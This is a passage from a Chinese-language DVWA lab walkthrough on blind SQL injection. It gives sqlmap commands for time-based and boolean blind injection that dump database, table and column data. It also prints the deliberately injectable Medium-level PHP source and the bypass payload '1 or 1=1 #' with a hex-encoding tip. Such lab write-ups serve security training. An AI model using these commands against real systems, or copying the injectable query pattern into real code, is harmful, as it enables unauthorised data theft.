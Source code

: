 但不一样的是，时间盲注不能使用线程参数，因为需要控制延时和页面返回，如果使用多线程会导致判断出错。

还可以设置时间盲注的sleep时间：--time-sec 3	这里设置为3秒，默认5秒	
```
sqlmap -r request.txt --dbms="MySQL" --batch --technique T --current-db 	//查找当前数据库名，返回dvwa
sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa --tables	//查找表名，返回guestbook,users
sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa -T guestbook --columns		//查找列名，返回comment,comment_id,name
sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa -T guestbook -C "comment,name" --dump		//查看具体数据，返回数据
```



## 0x02 Medium

#### 源码分析
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
    //mysql_close();
}
?>
```
增加了mysqli_real_escape_string这个函数，该函数会对\x00,\n,\r,\,',",\x1a进行转义，并且前端页面设置了下拉菜单，必须抓包修改后再注入。

由于此时是数值型注入（$id处没有单引号或双引号），不需要单引号，所以直接万能秘钥1 or 1=1 #即可，其他注入都跟Low等级一致，只需要抓包修改，不要用单引号即可。如果要用到单引号，那就用十六进制编码绕过。


#### 解题思路
利用sqlmap进行盲注：
```
sqlmap -r request.txt --dbms "MySQL" --batch --current-db --hex		//查询当前数据库
sqlmap -r request.txt --dbms "MySQL" --batch -D dvwa --technique B --thread 10 --tables --hex	//	查询dvwa数据库下的表名，强制指定布尔盲注，多线程10个
```
其中--hex为字符16进制编码，其他注入语句同Low级别，使用时间或布尔盲注都可以。
